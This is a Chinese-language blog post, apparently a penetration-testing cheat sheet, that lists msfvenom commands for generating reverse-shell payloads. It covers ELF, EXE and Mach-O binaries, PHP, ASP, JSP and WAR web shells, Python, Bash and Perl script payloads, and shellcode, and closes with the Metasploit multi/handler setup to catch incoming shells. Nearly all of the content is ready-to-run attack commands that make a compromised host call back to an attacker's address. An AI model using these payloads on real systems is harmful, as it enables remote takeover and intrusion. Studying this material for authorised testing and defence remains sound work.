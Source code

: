 ```yaml
---
title: msfvenom生成payloads
layout: post
tags: 
  - shell
  - command
  - reverseshell
category: 
  - hack
  - sec
comments: true
share: true
description: MSF可以利用msfvenom生成payload，提供有效的shell。对于每个有效的payload，可以进入`exploit/multi/handler`，通过`set payload`设置监听。（设置LSHOT和LPORT，LHOST为本地IP）
---
```


* TOC
{:toc}

MSF可以利用msfvenom生成payload，提供有效的shell。对于每个有效的payload，可以进入`exploit/multi/handler`，通过`set payload`设置监听。（设置LSHOT和LPORT，LHOST为本地IP）

<!--more-->

## 列出payload

```bash
msfvenom -l
```

## Binaries

### Linux

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf
```

### Windows

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe
```

### Mac

```bash
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f macho > shell.macho
```

## Web Payloads

### PHP

```php
msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
```

### ASP

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp > shell.asp
```

### JSP

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.jsp
```

### WAR

```java
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f war > shell.war
```

## Script Payloads

### Python

```python
msfvenom -p cmd/unix/reverse_python LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.py
```

### Bash

```bash
msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.sh
```

### Perl

```perl
msfvenom -p cmd/unix/reverse_perl LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.pl
```

## Shellcode

有关所有shellcode的信息，请参阅`msfvenom --help-formats`参数

```bash
msf exploit(handler) > msfvenom --help-formats
[*] exec: msfvenom --help-formats

Executable formats
    asp, aspx, aspx-exe, axis2, dll, elf, elf-so, exe, exe-only, exe-service, exe-small, hta-psh, jar, jsp, loop-vbs, macho, msi, msi-nouac, osx-app, psh, psh-cmd, psh-net, psh-reflection, vba, vba-exe, vba-psh, vbs, war
Transform formats
    bash, c, csharp, dw, dword, hex, java, js_be, js_le, num, perl, pl, powershell, ps1, py, python, raw, rb, ruby, sh, vbapplication, vbscript
```


### Linux Based Shellcode

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>
```
### Windows Based Shellcode

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>
```

### Mac Based Shellcode

```bash
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>
```

## Handlers

使用`exploit/multi/handler`快速处理传入的shell：

```bash
use exploit/multi/handler
set PAYLOAD <Payload name>
set LHOST <LHOST value>
set LPORT <LPORT value>
set ExitOnSession false
exploit -j -z
```

